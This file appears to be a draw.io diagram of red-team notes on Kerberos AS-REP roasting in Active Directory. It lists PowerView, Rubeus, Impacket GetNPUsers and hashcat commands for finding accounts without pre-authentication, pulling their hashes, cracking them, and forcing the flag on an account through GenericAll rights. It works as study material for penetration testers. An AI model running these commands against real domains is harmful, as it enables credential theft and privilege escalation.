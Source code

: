 <mxfile version="27.1.6">
  <diagram name="Pagina-1" id="J933VrF4-ukwTBbtJVdo">
    <mxGraphModel dx="2819" dy="1072" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="0" pageScale="1" pageWidth="1169" pageHeight="827" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-88" value="&lt;b&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; These return TGS&lt;/b&gt;" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;dashed=1;align=left;verticalAlign=bottom;" parent="1" vertex="1">
          <mxGeometry x="1640" y="1700" width="500" height="20" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-1" target="zsb6fFKO1eEHvJ3RfYXY-16" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-121" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-1" target="zsb6fFKO1eEHvJ3RfYXY-16" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-123" value="AUTH" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-121" vertex="1" connectable="0">
          <mxGeometry x="-0.078" y="-1" relative="1" as="geometry">
            <mxPoint x="-2" as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-124" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.75;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-1" target="zsb6fFKO1eEHvJ3RfYXY-122" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-125" value="DELEGATION" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-124" vertex="1" connectable="0">
          <mxGeometry x="-0.913" y="-3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-84" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-1" target="-mCO11fVwZeK89IVwwup-83">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-1" value="&lt;b&gt;Kerberos&lt;/b&gt;" style="rounded=0;whiteSpace=wrap;html=1;shape=hexagon;perimeter=hexagonPerimeter2;fixedSize=1;" parent="1" vertex="1">
          <mxGeometry x="120" y="210" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-22" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-16" target="zsb6fFKO1eEHvJ3RfYXY-21" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-23" value="NO" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-22" vertex="1" connectable="0">
          <mxGeometry x="-0.467" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-43" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-16" target="zsb6fFKO1eEHvJ3RfYXY-40" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-44" value="YES" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-43" vertex="1" connectable="0">
          <mxGeometry x="-0.397" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-16" value="&lt;b&gt;pre-auth&lt;/b&gt;" style="rhombus;whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="310" y="200" width="80" height="80" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-25" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-21" target="zsb6fFKO1eEHvJ3RfYXY-24" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-29" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-21" target="zsb6fFKO1eEHvJ3RfYXY-27" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-31" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-21" target="zsb6fFKO1eEHvJ3RfYXY-30" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-54" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-21" target="zsb6fFKO1eEHvJ3RfYXY-52" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-60" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-21" target="zsb6fFKO1eEHvJ3RfYXY-58" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="540" y="750" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-21" value="&lt;b&gt;Enumeration&lt;/b&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="480" y="210" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-24" value="PowerShell Enumeration of accounts with DONT_REQ_PREAUTH" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="580" y="300" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-26" value="&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Get-DomainUser -UACFilter DONT_REQ_PREAUTH&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="580" y="360" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-27" value="Rubeus to enumerate all accounts with the flag DONT_REQ_PREAUTH." style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="580" y="440" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-28" value="Rubeus.exe asreproast /format:hashcat" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="580" y="500" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-34" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-30" target="zsb6fFKO1eEHvJ3RfYXY-32" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-36" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-30" target="zsb6fFKO1eEHvJ3RfYXY-35" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-57" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-30" target="zsb6fFKO1eEHvJ3RfYXY-55" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-61" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-30" target="zsb6fFKO1eEHvJ3RfYXY-58" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-30" value="&lt;b&gt;retrieve AS-REP&lt;/b&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1049" y="210" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-32" value="Rubeus" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1130" y="300" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-33" value=".\Rubeus.exe asreproast /user:&amp;lt;user&amp;gt; /domain:&amp;lt;domain&amp;gt; /dc:&amp;lt;dc-ip&amp;gt; /nowrap /outfile:&amp;lt;output-file&amp;gt;" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1130" y="360" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-39" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-35" target="zsb6fFKO1eEHvJ3RfYXY-37" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-35" value="&lt;b&gt;hash cracking&lt;/b&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1620" y="210" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-37" value="HashCat" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#fff2cc;strokeColor=#d6b656;" parent="1" vertex="1">
          <mxGeometry x="1720" y="300" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-38" value="hashcat -m 18200 &amp;lt;hash-file&amp;gt; &amp;lt;wordlist&amp;gt;&amp;nbsp; -O" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1720" y="360" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-47" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#3333FF;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-49" target="zsb6fFKO1eEHvJ3RfYXY-45" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-48" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.75;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-49" target="zsb6fFKO1eEHvJ3RfYXY-21" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="1100" y="1013" />
              <mxPoint x="1100" y="930" />
              <mxPoint x="440" y="930" />
              <mxPoint x="440" y="255" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-50" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-40" target="zsb6fFKO1eEHvJ3RfYXY-49" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-51" value="YES" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-50" vertex="1" connectable="0">
          <mxGeometry x="-0.069" y="-1" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-70" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-40" target="zsb6fFKO1eEHvJ3RfYXY-69" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-71" value="NO" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-70" vertex="1" connectable="0">
          <mxGeometry x="0.118" y="-2" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-40" value="&lt;b&gt;GenericAll privileges on an account&lt;/b&gt;" style="rounded=0;whiteSpace=wrap;html=1;shape=rhombus;backgroundOutline=1;perimeter=rhombusPerimeter;" parent="1" vertex="1">
          <mxGeometry x="520" y="983" width="240" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-45" value="&lt;div&gt;Set DONT_REQ_PREAUTH with PowerView&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1050" y="1103" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-46" value="&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Set-DomainObject -Identity &amp;lt;userName&amp;gt; -XOR @{useraccountcontrol=4194304} -Verbose&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1050" y="1163" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-49" value="&lt;b&gt;Set DONT_REQ_PREAUTH&lt;/b&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="830" y="983" width="240" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-52" value="Impacket" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="580" y="580" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-53" value="GetNPUsers.py &amp;lt;domain&amp;gt;/&amp;lt;user&amp;gt;" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="580" y="640" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-55" value="impacket" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="1130" y="440" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-56" value="GetNPUsers.py &amp;lt;domain&amp;gt;/&amp;lt;user&amp;gt; -request" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1130" y="500" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-58" value="Impacket (&lt;span style=&quot;background-color: transparent;&quot;&gt;Finding AS-REPRoastable Accounts without Authentication&lt;/span&gt;)" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="1130" y="720" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-59" value="GetNPUsers.py &amp;lt;domain&amp;gt;/ -dc-ip &amp;lt;dc-ip&amp;gt; -usersfile &amp;lt;userfile&amp;gt; -format hashcat -outputfile &amp;lt;outputfile&amp;gt; -no-pass" style="whiteSpace=wrap;html=1;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="1130" y="780" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-65" value="We may receive an error, but we will still get the hash of the account" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f5f5f5;strokeColor=#666666;fontColor=#333333;" parent="1" vertex="1">
          <mxGeometry x="1130" y="840" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-67" value="&lt;b&gt;RED TEAM NOTES&lt;/b&gt;" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#e51400;strokeColor=#B20000;fontColor=#ffffff;" parent="1" vertex="1">
          <mxGeometry x="120" y="-250" width="190" height="20" as="geometry" />
        </mxCell>
